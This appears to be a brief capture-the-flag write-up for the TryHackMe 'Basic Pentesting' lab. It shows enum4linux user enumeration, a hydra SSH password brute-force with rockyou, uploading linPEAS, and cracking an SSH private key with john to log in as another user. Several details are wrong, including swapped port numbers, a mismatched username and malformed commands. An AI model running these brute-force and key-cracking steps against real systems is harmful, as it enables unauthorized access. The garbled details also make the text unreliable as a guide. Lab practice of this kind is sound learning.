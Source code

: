 This machine is from THM: [Link]("https://tryhackme.com/r/room/basicpentestingjt")
This is also available in VULNHUB

# Nmap scan
we have nmap scan report saying that the following ports are open 
- ssh 80
- http 22
etc [refer the scan report]

# Basic enumiration
Basic enumiration has to be done on the target machine always.
used enum4linux to enumirate the username and os type and other details of the target system and are able to find the usernames
__This will be helpful when we have ssh port open and dont know the username.__
```bash
enum4linux -a 10.10.212.198 | tee enumiration.log
```
Here is the enumiration report in [enumiration.log](/files/enumiration.log)
```Output
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
From the above output we can see the users `kay` and `jan`.
# Password crackinf
We use hydra to crack passwords on servers.
We use wordlist and the type of service followed byu the ipaddress [refer the help dialog]
```bash
hydra -l jay -P /usr/share/wordlists/rockyou.txt ssh://Tar.get.IP/
```
# Once we get the password 
I used a tool linPEAS thet should be executed in the target system to know what are the possibilites of previlage escalation can be done on what processes. 
I have the tool on my kali vam /opt/tools/linpeas.sh
Once it is copied using the scp 
```bash
scp -P 22 /files/linpeas.sh jay@Target_IP:/~
```
I found  a ssh private key and used that private key to connect to kay
the private key is stored as [ssh_key]("/files/ssh-private-key"). This is converted to hash using 
```bash
john ssh2john /path/to/the/file 
```
And cracked the password that is stored in the relevant txt file in the files directory
now i can see the passowrd logging into kay's account.
```bash
ssh -i /identity/filekay @Target-IPaddress 
```
